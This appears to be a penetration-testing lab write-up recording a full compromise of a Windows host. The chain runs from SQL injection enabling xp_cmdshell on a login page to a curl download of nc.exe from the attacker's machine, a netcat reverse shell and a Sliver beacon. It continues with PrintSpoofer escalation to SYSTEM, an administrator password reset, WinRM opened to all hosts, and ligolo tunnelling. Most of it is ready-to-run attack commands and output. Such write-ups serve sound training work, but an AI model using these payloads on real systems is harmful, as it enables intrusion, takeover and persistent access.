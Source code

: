 Attempting SQL injection on .121 at login.aspx to get a shell 
```
' EXECUTE sp_configure 'show advanced options', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE sp_configure 'xp_cmdshell', 1; --//
```
```
' RECONFIGURE; --//
```
OR
```
admin' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
Testing for ping traffic with 
```
' EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
- Receiving ping traffic with 
```
sudo tcpdump icmp
```
Didn't work but instead I tried to get a payload from the computer with the following and it worked 
```
' EXECUTE xp_cmdshell 'curl -o C:\Temp\nc.exe http://192.168.45.170:8080/windows/nc.exe'
```
Then I got a shell with 
```
' EXECUTE xp_cmdshell 'C:\Temp\nc.exe -e cmd.exe 192.168.45.170 5555'
```
Started sliver server and generated a  payload with 
```
http
```
```
https
```
```
generate beacon --http 192.168.45.170 --os windows -f exe 
```
moved this to my /var/www/html/windows directory and curled it on the machine and executed 
got to the beacons with 
```
beacons
```
```
use <ID>
```
to get out use 
```
background
```

whoami /priv output 
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
- This means we can execute printspoofer64.exe

- Output of printspoofer
```
.\print.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system

```
Find user or local or proof.txt 
```
Get-ChildItem -Path C:\ -Recurse -Filter "*.txt" | Where-Object { $_.Name -match "^(user|local|proof)\.txt$" } | Select-Object FullName
```
Found proof.txt in C:\\Users\\Administrator\\Desktop\\proof.txt
Reset the administrator password to password1
```
net user Administrator password1
```
Enable WinRM
```
Enable-PSRemoting -Force
```
```
Set-NetFirewallRule -Name 'WINRM-HTTP-In-TCP-PUBLIC' -Enabled True
```
Set trusted hosts to everyone
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*' -Force
```
Gives me access via evil-winrm with 
```
evil-winrm -i 192.168.227.121 -u Administrator -p password1
```
ligolo instructions
```
sudo ip tuntap add user kali mode tun ligolo
```
on kali
```
ligolo-proxy -selfcert
```
on victim
```
agent.exe -connect <IP>:<PORT> -ignore-cert
```
on kali 
```
sudo ip route add <SUBNET>/24 dev ligolo
```
in ligolo
```
start
```
add a listener for reverse connections in kali ligolo type 
```
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```
Use nc or socat on port 10000 to get reverse shell and send over traffic on port 30000 to the proxy on the victim machine and catch it on port 10000 locally